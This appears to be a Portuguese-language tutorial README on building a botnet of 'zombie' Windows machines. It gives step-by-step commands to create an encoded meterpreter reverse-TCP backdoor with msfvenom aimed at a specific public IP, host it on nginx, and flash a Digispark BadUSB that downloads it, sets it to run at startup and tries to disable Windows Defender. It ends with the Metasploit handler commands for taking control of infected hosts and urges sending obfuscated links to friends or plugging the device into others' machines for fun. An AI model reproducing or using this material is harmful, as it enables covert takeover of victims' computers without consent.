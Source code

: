 **Criar uma INSTANCIA e definir um IP estatico**
 Eu estarei utilizando o GCP(Google cloud platform) mas você pode utilizar o provedor de CLOUD que deseja ou até mesmo um VPS.

Acesso meu console e crio a instancia. Estancia essa que é bem basica uma micro com SO Debian 9

Com o a instancia criada, eu defino um IP estatico para minha instancia. Um IP estatico é necessario para que não ocorra o risco do IP mudar e perdemos nossos "computadores zumbis" já conquistados.


**Instalar METASPLOIT e NGINX**
 Nesse passo vamos instalar nosso canivete suiço METASPLOIT para criamos nosso BACKDOOR e orquestramos nossos "computadores zumbis" o nginx vai ser necessario para que o nosso payload do Digispark possa fazer o download do BACKDOOR para dentro da maquina alvo.

   Conecte a sua instancia por ssh para instalarmos o METASPLOIT e o NGINX para isso rode 

 ```shell
 ssh usuario@instancia 
```

  apos se conectar rode instale o nginx ou apache como preferir
 ```shell
 sudo apt-get install -y nginx
```
  agora os comandos abaixo é para instalar o METASPLOIT

 ```shell
 curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
```

conceder permisão de execução para o instalador

 ```shell
 chmod +x msfinstall
```

agora execulte o mesmo

 ```shell
 ./msfinstall
```

E feito isso e não deu nenhum error é so verificar se ta tudo certo.
Como vai ser a primeira execução ele vai perguntar se você deseja criar um novo banco de dados para o metasploit você responde com um sim e seus dados que ele vai criar as credenciais e configurar tudo para que você possa utilizar a ferramenta

 ```shell
 msfconsole --version
```


**Criar BACKDOOR REVERSE**

Agora vamos criar o backdoor definindo qual tipo de conexão iremos usar que vai ser uma REVERSA TCP para qual tipo de SO, qual vai ser o nosso LHOST(IP de comunicação) nossa LPORT(porta de comunicação) o tipo da extenção do backdoor -f exe o algoritmo de criptografia e compreensão, -i o numero de interações do encoded com o backdoor, -o o nosso arquivo de saida.  se você estive e uma cloud provavelmente vai ter que criar uma regra de firewall para a sua porta escolhida

 ```shell
        $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=34.97.212.80 LPORT=5000 -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe
```

Rodando um ls verá que o arquivo payload.exe foi criado

** Configurar NGINX para download do backdoor**

Vamos criar uma copia dele dentro da nossa pasta do servidor 

 ```shell
 sudo cp ./payload.exe /var/www/html/payload.exe
````

Feito isso nosso arquivo vai esta disponivel para download em 

        http://34.97.212.80/payload.exe


**Digispark**

Para continuarmos com nosso ataque, precisamos conquistar nosso primeiro "Zumbir". Podemos fazer isso de varias formas envolvendo engenharia social entre elas as mais comuns, como enviar o nosso link para um amigo, ofuscado de tal forma que não levante suspeitas. 

Mas aqui vou abordar um ataque de infecção fisica, onde iremos ter acesso fisico a uma maquina e com a posse de um Digispark iremos infectar uma maquina. 

Para quem não conhece o Digispark, ele é uma placa de desenvolvimento com tamanho reduzido e 6 pinos de I/O (entrada/saída), ideal para uso em projetos de IoT (Internet of Things ou Internet das Coisas) ou simplesmente para uso em projetos onde você não precisa de muitas portas do microcontrolador. 

Que chega ser um GENERICO ao Rubber duck(dispositivo esse usado na serie Mr. Robot) e pode ser programada com a IDE do Arduino. com isso configuraremos o Digispark para reconhecido como um teclado, qual não iremos precisar de nenhum tipo de permisão do usuario da maquina e iremos executar comandos de teclado para fazer o download do backdoor e execultar ele na maquina e adicionar ele junto a inicialização do Windows, para que quando a maquinar for reiniciar obtermos uma nova conexão com a mesma. 

Agora bora lá, para isso você vai precisar de um[ Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16](https://eletronicos.mercadolivre.com.br/pecas-componentes/arduino-digispark " Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16") . Com ele em mãos agora você vai precisar carregar nele os modulos de "teclado" transformando-o em um "rubbe duck" para isso você pode seguir os passos d[este tutorial](https://aminbohio.com/creating-a-cheap-rubber-ducky-aka-bad-usb-with-attiny85 "este tutorial") e voltar aqui

Talvez você enfrente problemas ao efetuar a injeção de payload no digispark para resolver isso você vai precisar [configurar o uDev ]( https://www.hardware.com.br/livros/ferramentas-linux/entendendo-udev.html "configurar o uDev ")

**Criar Payload para injectar o BACKDOOR**

Feito tudo isso e com o ARDUINO IDE instalado vamos criar o nosso Payload que ao pluggarmos em uma maquina vai fazer o download do backdoor, mover ele para a inicialização do windows, tentar desativar o windows defender e  execultar nosso backdoor, tudo isso em questão de segundos hahahahaha

Abra o Arduino IDE e cole o [payload que vou deixar aqui](https://github.com/despossivel/Vetor-de-ataque-com-CLOUD---BACKDOOR-DIGISPARK/blob/master/payload.ino "payload que vou deixar aqui") para vocês. Copiado e colado e entendido o que o payload faz, você pluga o digispark na porta USB da sua maquina e clicamos em verificar primeiro e depois em carregar e aguarde a IDE solicitar que você pluge o dispositivo.

 E SUCESSO! Diggispark RUBBE DUCK esta criado. Agora basta plugar o digispark em qualquer maquina windows aguardar 4 segundos e remove-lo, tudo muito rapido. 


** INICIAR ESCULTA DAS CONEXOES DO BACKDOOR**

Agora voltamos para a nossa instancia para iniciarmos a esculta do backdoor na nossa porta em acesso SSH a nossa instancia iniciamos o console do Metasploit executado

```shell
msfconsole
```
depois de iniciado

```shell
    msf > use exploit/multi/handler
    msf >set PAYLOAD windows/meterpreter/reverse_tcp
    msf >set LHOST 34.97.212.80
    msf >set LPORT 5000
    msf >set ExitOnSession false
```

para ficar na esculta em tempo real de quem se conectou ou disconectou rode
```shell
    msf > exploit -j -z
```

 para listar nossas conexões de entrada até o momento

```shell
msf> sessions -l 
```
e para acessar um "zumbir
```shell
msf> sessions -i <numero da sessão> 
```

**Obter acesso a uma maquina infectada**

Agora basta enviar o link para alguem ou plugar o digispark em alguma maquina e se divertir hahaha
